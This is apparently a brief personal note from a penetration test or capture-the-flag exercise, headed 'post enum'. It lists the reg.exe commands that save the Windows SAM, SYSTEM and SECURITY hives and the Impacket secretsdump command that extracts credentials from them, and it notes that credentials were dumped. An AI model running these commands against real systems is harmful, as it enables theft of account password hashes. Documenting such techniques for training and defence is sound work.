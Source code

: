 
# post enum

```
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

dumped creds with 3 hives

![[Pasted image 20240611023602.png]]